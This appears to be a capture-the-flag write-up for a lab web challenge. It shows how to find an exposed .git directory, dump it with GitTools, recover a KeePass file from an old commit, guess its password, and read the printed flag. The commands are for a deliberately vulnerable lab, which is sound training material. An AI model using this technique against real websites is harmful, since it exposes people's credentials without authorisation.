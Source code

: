 # Intro

I've been working for some very shady startups lately. This one had a very strange way to host their website. I think I made a mistake and accidentaly pushed their passwords to the public website. But don't worry, I took care of it.

# Setup

```
docker build -t uhctf_buzz
docker run -p 80:80 uhctf_buzz
```

# Write-up

Upon first inspection, the website looks pretty normal.

Using a recon tool (such as nmap), you can find out that there's a `.git` folder in the website.

From your browser, you can check out the git logs (as they are at the same place in every git repo):

```
curl http://url/.git/logs/refs/heads/main
0000000000000000000000000000000000000000 bcbfc37195ada44da6f2bbaafd2f32b8b6837ea0 Ward Segers <w@rdsegers.be> 1714602798 +0200	commit (initial): add site
bcbfc37195ada44da6f2bbaafd2f32b8b6837ea0 b2342887899ffbe10e244cb4e41db6f771b5c7c6 Ward Segers <w@rdsegers.be> 1714602820 +0200	commit: Remove password file
```

Now, you see that we have two git commits in this repo. We can use gittools to extract the contents of the two commits:

```
mkdir -p /tmp/buzz/git
gitdumper http://localhost:8080/.git/ /tmp/buzz/git
mkdir -p /tmp/buzz/commits
gitextractor /tmp/buzz/git /tmp/buzz/commits
```
Now, you can go to the correct git commit in the commits-folder.

Here, you find a KeePass-file, which contains passwords. The password might not be to difficult to guess: `buzz`.

You then find a single entry with the flag:

```
uhctf{s3c-s33ms-2-be-don3-by-p><l}
```
